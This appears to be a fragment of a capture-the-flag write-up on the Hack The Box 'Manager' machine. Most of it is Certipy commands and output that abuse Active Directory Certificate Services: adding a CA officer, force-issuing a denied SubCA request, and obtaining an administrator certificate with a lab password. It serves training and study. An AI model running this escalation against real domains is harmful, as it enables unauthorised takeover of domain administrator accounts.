 https://www.thehacker.recipes/ad/movement/adcs/access-controls
```bash
──(pwn㉿kali)-[~]
└─$ certipy ca -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -list-template    
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-dc01-ca':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator

```

If `raven` has enrollment rights on a **privileged** template, request a certificate
**What is happening?**
```bash
┌──(pwn㉿kali)-[~]
└─$ certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
                                                                                                                   
┌──(pwn㉿kali)-[~]
└─$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 19
Would you like to save the private key? (y/N) y
[*] Saved private key to 19.key
[-] Failed to request certificate
                                                                                                                   
┌──(pwn㉿kali)-[~]
└─$ certipy ca -ca manager-DC01-CA -issue-request 19 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
                                                                                                                   
┌──(pwn㉿kali)-[~]
└─$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 19 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 19
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '19.key'
[*] Saved certificate and private key to 'administrator.pfx'

```